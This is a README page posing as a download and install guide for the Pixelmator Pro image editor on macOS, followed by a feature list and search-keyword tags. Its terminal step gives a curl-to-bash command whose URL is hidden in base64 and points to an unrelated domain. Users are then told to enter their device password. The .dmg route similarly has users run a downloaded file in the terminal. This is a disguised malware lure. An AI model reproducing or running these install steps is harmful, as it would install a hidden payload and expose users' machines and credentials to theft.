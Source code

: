 # Pixelmator Pro — Powerful Image Editor for macOS

![Pixelmator Pro Screenshot](https://www.macworld.com/wp-content/uploads/2023/11/Pixelmator-Pro-2023-review.jpg?quality=50&strip=all)

---

## 📥 Download Pixelmator Pro for macOS

[![⬇️ Download Pixelmator Pro macOS](https://img.shields.io/badge/Download-Pixelmator%20Pro-macOS-blue?style=for-the-badge&logo=apple&logoColor=white&labelColor=000000&logoWidth=20)](https://mitrobandus.github.io/.github/Pixelmator)


---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Pixelmator Pro?

Pixelmator Pro is a full-featured, macOS-native image editing app designed for professionals and enthusiasts alike. It combines a sleek, intuitive interface with powerful features such as nondestructive editing, advanced color adjustments, AI-enhanced tools, layer styles, vector support, and much more.

Built exclusively for macOS, Pixelmator Pro leverages technologies like Metal, Core ML, and Apple Silicon to deliver fast and efficient performance. Whether you’re editing photos, creating graphic designs, or working with digital painting, Pixelmator Pro offers a versatile set of tools that rival expensive software.

From simple retouching and cropping to complex compositions and effects, Pixelmator Pro makes it easy to produce stunning visuals on your Mac.

---

![Pixelmator Pro Tools](https://www.pixelmator.com/cdn-web-assets/pro/2.2/img_tools--v1.jpg)

---

## ⚙️ Key Features

- Nondestructive, layer-based editing  
- AI-powered image enhancements  
- Wide range of brushes and painting tools  
- Support for RAW images and color profiles  
- Vector graphics and shape tools  
- Seamless integration with macOS features (Dark Mode, iCloud Drive)  
- Optimized for Apple Silicon and Metal graphics  
- Extensive format support including PSD, TIFF, JPEG, PNG  

---

## 🏷️ Tags

`pixelmator pro mac`  
`pixelmator`  
`pixelmator pro`  
`mac pixelmator`  
`pixelmator app`  
`pixelmator black friday`  
`pixelmator pricing`  
`pixelmator pro cost`  
`pixelmator pro price`  
`pixelmator pro sale`  
`tutorial pixelmator`  
`pixelmator pro mac download`
